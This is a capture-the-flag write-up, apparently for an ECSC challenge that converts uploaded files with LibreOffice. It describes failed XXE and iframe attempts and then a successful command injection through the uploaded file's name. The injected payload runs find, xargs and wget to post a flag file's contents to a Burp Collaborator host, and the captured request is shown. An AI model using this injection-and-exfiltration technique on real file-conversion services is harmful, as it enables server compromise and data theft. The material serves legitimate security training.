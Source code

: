tried with an html and iframe to my site. it worked. tried js, no. iframe doesn't work properly, just sends request.

```
37.128.230.46 - - [06/Apr/2019:10:39:45 +0000] "OPTIONS / HTTP/1.1" 405 166 "-" "LibreOffice"
37.128.230.46 - - [06/Apr/2019:10:39:45 +0000] "HEAD / HTTP/1.1" 200 0 "-" "LibreOffice"
37.128.230.46 - - [06/Apr/2019:10:39:45 +0000] "GET / HTTP/1.1" 200 93 "-" "LibreOffice"
```

then i tried everything. found something about remote arbitrary file disclosure in LibreOffice. tried that, didnt work.


left it like that, got to work on other challenges.

got back. https://github.com/BuffaloWill/oxml_xxe.git nothing. svg, xml xxe.

reading the hint i figured i should think deeper how they process this. well i already now it's a libre office convert. and allows lots of files. but what if the filename is used in the command? let's try that.

`sleep 4`. it worked. remembering a challenge from defcamp last year, let's try dig with burp collaborator. it works.

lets exfiltrate with dig. tedious

a lot of tries later

```
$(find src | grep flag.js | head -n1 | xargs -I{} wget v0w0824vj4o195hog7gz3trvomuci1.burpcollaborator.net --post-data a={})
```

```
POST / HTTP/1.1
User-Agent: Wget/1.19.4 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: v0w0824vj4o195hog7gz3trvomuci1.burpcollaborator.net
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

a=module.exports = ECSC{98028539a362efecbde13ae4df924e02432555bb1f4730219938330651d84f35};
```
